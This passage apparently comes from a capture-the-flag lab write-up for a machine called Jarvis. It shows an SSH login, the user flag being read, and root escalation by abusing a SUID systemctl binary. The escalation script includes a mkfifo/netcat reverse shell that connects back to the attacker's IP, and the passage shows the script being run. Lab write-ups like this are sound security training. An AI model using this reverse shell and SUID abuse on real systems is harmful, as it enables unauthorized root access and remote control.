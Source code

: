 ```
$ ssh -i pepper.id_rsa.tmp pepper@10.10.10.143
load pubkey "pepper.id_rsa.tmp": invalid format
Linux jarvis 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Mar  5 10:23:48 2019 from 172.16.204.1
pepper@jarvis:~$ id
uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)
pepper@jarvis:~$ cat user.txt 
2afa36c4f05b37b34259c93551f5c44f
```

## Privilege Escalation - Root Own (Remote Code Execution via SUID Binary)

After enumerating the system again for SUID binaries, I found the following SUID binary which was exeutable by pepper and root:

```
$ ls -l /bin/systemctl
-rwsr-x--- 1 root pepper 174520 Feb 17  2019 /bin/systemctl
```

Using the [example](https://gtfobins.github.io/gtfobins/systemctl/) from GTFObins, I was able to abuse the root SUID permissions on `/bin/systemctl` here
by executing a oneshot service with the following script:

```bash
#!/bin/sh

TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.19 2001 >/tmp/f"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

The oneshot service would execute a netcat reverse shell that would connect back to my Kali machine.
I created the script above with the `vi` text editor, made it executable, and ran it:

```
pepper@jarvis:/dev/shm$ chmod +x exploit.sh
pepper@jarvis:/dev/shm$ ./exploit.sh
Created symlink /etc/systemd/system/tmp.awugOTb7uU.service → /tmp/tmp.awugOTb7uU.service.
Created symlink /etc/systemd/system/multi-user.target.wants/tmp.awugOTb7uU.service → /tmp/tmp.awugOTb7uU.service.

```
